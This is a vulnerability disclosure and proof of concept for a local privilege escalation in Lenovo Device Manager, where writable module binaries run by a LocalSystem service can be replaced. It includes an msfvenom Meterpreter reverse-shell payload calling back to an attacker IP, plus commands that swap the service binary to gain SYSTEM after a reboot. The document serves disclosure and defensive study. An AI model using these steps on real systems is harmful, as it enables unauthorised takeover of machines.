 # CVE-2025-2502 — Lenovo Device Manager: Local Privilege Escalation (POC)

## Vulnerability Overview

While studying local privilege escalation techniques in a Windows lab, I installed Lenovo Device Manager to inspect its installed components. Browsing the ProgramData modules out of curiosity, I noticed oddly permissive ACLs on the module directories — files downloaded by the application were writable by standard users.

That raised a red flag: if a service binary stored in such a directory runs as LocalSystem, and a non-privileged user can alter the file content, a simple replace-and-reboot could make the service execute attacker-controlled code as SYSTEM.

## Vulnerability technical Overview

A permissions flaw in Lenovo Device Manager (all versions observed) grants non-privileged users **F (Full) control** over downloaded tool binaries under `%ProgramData%\Lenovo\devicecenter\modules\…`. A privileged service (`KPICService_Lenovo`) loads one such binary as LocalSystem; because an unprivileged user can replace that binary on disk, the service will start the replaced binary as SYSTEM after a reboot — enabling local privilege escalation.

![Vulnerability Overview](https://github.com/user-attachments/assets/b93b76b1-f2f2-436f-a5dd-72f4248600af)

## Lab Setup & Reproduction

### 1. Setup Lab Environment

- Host a Windows VM and take a snapshot
- Install Lenovo Device Manager and the AI Picture plugin (vulnerable version)
- Ensure the VM is isolated from production networks

![Lab Setup](https://github.com/user-attachments/assets/9fcdeeaf-3600-4dc7-b646-6e7e8bc78c5a)

### 2. Confirm Service & Permissions

Inspect the service configuration and file permissions:

**Service Location:**

%ProgramData%\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe


![Service Configuration](https://github.com/user-attachments/assets/ef41db4c-c148-4512-ad15-a8eb82d14427)

![File Permissions](https://github.com/user-attachments/assets/e33ef6fe-910d-48cc-beab-0f4d2f841f6e)

### 3. Validate

With the system booted into a state where the service process is locked, confirm an unprivileged account can move or rename the original `kpicservice.exe` file.

<img width="803" height="148" alt="image" src="https://github.com/user-attachments/assets/96afd83f-22ce-4ed9-be10-1acef9a914ac" />

## Practical Exploitation Steps

### Generate Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=4444 -f exe -o kpicservice.exe
```
# Move original file
```bash
move C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe kpicservice.exe.backup
```
# Replace with payload
```bash
move Desktop\kpicservice.exe C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe
```
### Trigger Exploitation
Reboot the device

The service automatically starts the replaced kpicservice.exe (payload)

Obtain SYSTEM privileges

<img width="921" height="677" alt="image" src="https://github.com/user-attachments/assets/56ba6c54-af25-449a-8b2e-aec7add0a96e" />

### Disclaimer
This POC is for educational and defensive security purposes only. Always ensure you have proper authorization before testing on any systems.
